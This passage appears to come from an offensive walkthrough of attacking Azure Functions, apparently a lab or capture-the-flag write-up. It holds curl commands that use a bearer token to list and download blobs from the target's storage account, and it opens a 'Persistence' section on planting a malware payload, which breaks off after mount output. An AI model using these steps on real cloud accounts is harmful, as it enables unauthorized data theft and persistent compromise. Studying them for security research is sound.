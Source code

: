 ```xml
      </Properties>
    </Container>
    <Container>
      <Name>function-releases</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:50:20 GMT</Last-Modified>
        <Etag>"0x8D7CC2DFE3B3EE4"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
        <LeaseState>available</LeaseState>
        <HasImmutabilityPolicy>false</HasImmutabilityPolicy>
        <HasLegalHold>false</HasLegalHold>
      </Properties>
    </Container>
    <Container>
      <Name>scm-releases</Name>
      <Properties>
        <Last-Modified>Thu, 19 Mar 2020 17:50:31 GMT</Last-Modified>
        <Etag>"0x8D7CC2E049DE518"</Etag>
        <LeaseStatus>unlocked</LeaseStatus>
        <LeaseState>available</LeaseState>
        <HasImmutabilityPolicy>false</HasImmutabilityPolicy>
        <HasLegalHold>false</HasLegalHold>
      </Properties>
    </Container>
  </Containers>
  <NextMarker/>
</EnumerationResults>
```

List the blobs in the assets container:

```bash
curl -s -H "x-ms-version: 2017-11-09" -H "Authorization: Bearer $BEARER_TOKEN" "https://$STORAGE_ACCOUNT.blob.core.windows.net/assets?restype=container&comp=list"
```

Download our target cougar image:

```bash
curl -s -H "x-ms-version: 2017-11-09" -H "Authorization: Bearer $BEARER_TOKEN" "https://$STORAGE_ACCOUNT.blob.core.windows.net/assets/cougar.jpg" --output ~/Downloads/cougar.jpg
```

## Persistence

Persisting a malware payload into the runtime environment. Unlike AWS, some directories other than `/tmp` are writable while the source directory is not:

```bash
mount

none on / type aufs (rw,relatime,si=3885b43376db3940,dio,dirperm1)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,nodev,size=65536k,mode=755,uid=231072,gid=231072)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=231077,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (ro,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755,uid=231072,gid=231072)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
```